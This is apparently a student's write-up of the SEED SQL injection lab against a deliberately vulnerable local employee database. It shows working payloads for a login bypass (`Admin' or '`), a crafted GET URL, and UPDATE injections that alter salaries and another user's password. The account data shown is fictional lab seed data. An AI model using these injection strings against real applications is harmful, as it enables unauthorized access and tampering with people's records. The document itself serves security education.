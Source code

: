# 8 $-$ Sql Injection

## Notes

| Name    | Employee ID   | Password  | Salary    | Birthday  | SSN       |
| - | - | - | - | - | - | 
Admin   | 99999 | seedadmin  |
Alice   | 10000 | seedalice  |
Boby    | 20000 | seedboby  |
Ryan    | 30000 | seedryan  |
Samy    | 40000 | seedsamy  |
Ted     | 50000 | seedted  |

---

# Task 1 $-$ Get Familiar with SQL Statements
- connect to db shell: `mysql -u root -pdees`
- we can see the databases and connect to the wanted one:
  ```sql
  show databases;
  use sqllab_users;
  ```
- we can see the structure of the only table there (credential)
  ```sql
  describe credential;
  +-------------+--------------+------+-----+---------+----------------+
  | Field       | Type         | Null | Key | Default | Extra          |
  +-------------+--------------+------+-----+---------+----------------+
  | ID          | int unsigned | NO   | PRI | NULL    | auto_increment |
  | Name        | varchar(30)  | NO   |     | NULL    |                |
  | EID         | varchar(20)  | YES  |     | NULL    |                |
  | Salary      | int          | YES  |     | NULL    |                |
  | birth       | varchar(20)  | YES  |     | NULL    |                |
  | SSN         | varchar(20)  | YES  |     | NULL    |                |
  | PhoneNumber | varchar(20)  | YES  |     | NULL    |                |
  | Address     | varchar(300) | YES  |     | NULL    |                |
  | Email       | varchar(300) | YES  |     | NULL    |                |
  | NickName    | varchar(300) | YES  |     | NULL    |                |
  | Password    | varchar(300) | YES  |     | NULL    |                |
  +-------------+--------------+------+-----+---------+----------------+
  ```
- We get all Alice's info:
  ```sql
  select * from credential where Name='Alice';

  +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
  | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
  +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
  |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
  +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+

  ```

---

# Task 2 $-$ SQL Injection Attack on SELECT Statement

## 2.1 from the browser
- Inspecting the code we understand that the only vulnerable point is the username field (since the password gets hashed before even being sent to the db)
- so we can exploit the fact and trick it, entering this as username: `Admin' or 's'='s` or even `Admin' or '`

## 2.2 From the shell
- we can simply adapt the url with the special characters:
- `http://www.seed-server.com/unsafe_home.php?username=Admin%27+or+%27&Password=p`
- and we can see we get the table with all users
  ```html
  <table class='table table-striped table-bordered'>
    <thead class='thead-dark'>
      <tr>
        <th scope='col'>Username</th>
        <th scope='col'>EId</th>
        <th scope='col'>Salary</th>
        <th scope='col'>Birthday</th>
        <th scope='col'>SSN</th>
        <th scope='col'>Nickname</th>
        <th scope='col'>Email</th>
        <th scope='col'>Address</th>
        <th scope='col'>Ph. Number</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <th scope='row'> Alice</th>
        <td>10000</td>
        <td>20000</td>
        <td>9/20</td>
        <td>10211002</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Boby</th>
        <td>20000</td>
        <td>30000</td>
        <td>4/20</td>
        <td>10213352</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Ryan</th>
        <td>30000</td>
        <td>50000</td>
        <td>4/10</td>
        <td>98993524</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Samy</th>
        <td>40000</td>
        <td>90000</td>
        <td>1/11</td>
        <td>32193525</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Ted</th>
        <td>50000</td>
        <td>110000</td>
        <td>11/3</td>
        <td>32111111</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Admin</th>
        <td>99999</td>
        <td>400000</td>
        <td>3/5</td>
        <td>43254314</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
    </tbody>
  </table>
  ```

## 2.3 Append a new SQL statement
- Tried with:
  `Admin'; update credential set Name='2Boby' where Name='Boby' or '`
- basically the security measure is intrinsic to the `query` function from the `mysqli` library, as the documentation says:
  > The API functions mysqli::query() and mysqli::real_query() do not set a connection flag necessary for activating multi queries in the server. An extra API call is used for multiple statements to reduce the damage of accidental SQL injection attacks. An attacker may try to add statements such as ; DROP DATABASE mysql or ; SELECT SLEEP(999). If the attacker succeeds in adding SQL to the statement string but mysqli::multi_query is not used, the server will not execute the injected and malicious SQL statement.
- since the code processing the login (`if (!$result = $conn->query($sql)`) {) uses that, we cannot inject multiple sql operations 

--- 

# Task 3 $-$ SQL Injection Attack on UPDATE Statement
## 3.1 $-$ Modify your own salary
- Basically we can exploit one of the fields updated in the form to inject the update on the Salary as well, for example on the nickname type: `Alice2',Salary='1000000`
- and it works:
  - ![AliceSalary](./docs/AliceSalary.png)

## 3.2 $-$ Modify other people’ salary
- we can either craft a malicious url to send to the boss (since the update is made via GET):
  - http://www.seed-server.com/unsafe_edit_backend.php?NickName=%27%2C+Salary%3D%271&Email=&Address=&PhoneNumber=&Password=
- or exploit again the form (assuming we know the id of Boby, which is 2) and to avoid the last part in the code, which is a where, that would break the syntax since we want to inject our own where, comment the sql code at the end of the text we send:
  - `', Salary=2 where id=2;#`

## 3.3 $-$ Modify other people’ password
- we can simply calculate the sha1 hash via php interactive console:
  ```bash
  php -a

  php > echo sha1('bobmerda');
  253990e8403bbe0ad22d763fed851edbe6056431
  ```
- we can then verify that boby is no longer able to login via his old password (seedboby) while we are with the new one (bobmerda)
- 